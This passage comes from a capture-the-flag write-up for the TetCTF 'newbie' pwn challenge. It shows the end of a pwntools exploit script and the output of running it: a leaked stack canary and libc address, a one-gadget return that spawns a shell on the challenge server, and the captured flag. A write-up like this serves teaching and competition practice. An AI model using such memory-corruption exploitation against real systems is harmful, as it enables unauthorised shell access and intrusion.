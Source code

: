 ```python
    # Quit to return.
    p.recvuntil(b'> ')
    p.sendline(b'quit')
    log.success("Shell spawned! Enjoy!")

    p.interactive()


if __name__ == '__main__':
    main()
```

Running the script gives us the flag:

```console
vagrant@ubuntu-xenial:/vagrant/tetctf/newbie$ python exploit.py
[*] Computed 65535 hashes.
[*] Found magic one gadget at offset: 0x4f432
[*] '/vagrant/tetctf/newbie/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] __libc_start_main_offset: 0x21bf7
[+] Opening connection to 18.191.117.63 on port 31337: Done
[*] Offset 49: LApmeIwPVRvBimHy6V7jRifniOTe7NBG (0xc100)
[*] Offset 50: henRdEDwBeIMjzAvEudyFn76uTxTBkKi (0xd80c)
[*] Offset 51: 6JbEAh0e88NItAu5hKAY2wB2lSperfNn (0xf4a7)
[*] Offset 52: tqfR2IdzzMKJDfptV4s3imx0OPmk5yvo (0x1ae)
[*] Leaked canary: 0x1aef4a7d80cc100
[*] Offset 73: IUm4PsKcRdQCYgkI203pmyJk9KmqZ33h (0x2bf7)
[*] Offset 74: rzikY2f8hfX3SsEjQPqd2yzF5Z3OdtcI (0x6d50)
[*] Offset 75: gS0gzFoAuPb6O2AqmPcfd9VHdLphzi2W (0x7f14)
[*] Offset 76: pkDHTxmMR18N2l9k88EmLgN7cCCTt9rW (0x0)
[*] Leaked __libc_start_main: 0x7f146d502bf7
[*] libc base address: 0x7f146d4e1000
[*] Magic one gadget address: 0x7f146d530432
[+] Shell spawned! Enjoy!
[*] Switching to interactive mode
$ ls -la /home/
total 12
drwxr-xr-x 1 root root   4096 Dec 31 13:01 .
drwxr-xr-x 1 root root   4096 Dec 31 13:01 ..
drwxr-xr-x 1 root newbie 4096 Dec 31 13:01 newbie
$ cd /home/newbie
$ ls -la
total 36
drwxr-xr-x 1 root newbie  4096 Dec 31 13:01 .
drwxr-xr-x 1 root root    4096 Dec 31 13:01 ..
-rw-r--r-- 1 root newbie   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 root newbie  3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 root newbie   807 Apr  4  2018 .profile
-rw-r----- 1 root newbie    34 Dec 31 12:54 flag
-rwxr-xr-x 1 root newbie 10216 Dec 31 12:54 newbie
$ cat flag
TetCTF{Challenge_f0r_n3wbie_Akwpa}
```

**Flag:** `TetCTF{Challenge_f0r_n3wbie_Akwpa}`

